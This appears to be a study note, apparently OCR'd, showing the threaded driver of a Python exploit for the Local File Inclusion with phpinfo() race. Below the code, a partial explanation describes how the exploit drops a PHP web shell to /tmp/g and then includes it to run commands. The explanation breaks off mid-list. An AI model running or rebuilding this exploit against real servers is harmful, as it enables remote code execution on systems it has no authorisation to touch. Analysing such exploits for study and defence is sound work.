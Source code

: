 ```py

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

This Python script is designed as an exploit for **Local File Inclusion (LFI) with PHPInfo()** vulnerability in a web application.
**Key Components**

1. **Payload Creation**:
    
    - The `setup()` function creates a payload that will write a PHP shell to `/tmp/g` on the server.
    - It sends an HTTP POST request with this payload to a vulnerable `phpinfo.php` page. The payload includes a PHP code that will execute shell commands passed through a `GET` parameter `f`.
2. **LFI Request**:
    
    - After uploading the payload, the script sends a crafted GET request to trigger Local File Inclusion on the vulnerable `lfi.php` page.
    - The GET request tries to include the file created in the previous step (e.g., `/tmp/g`) to execute the PHP shell.
3. **Offset Calculation**:
    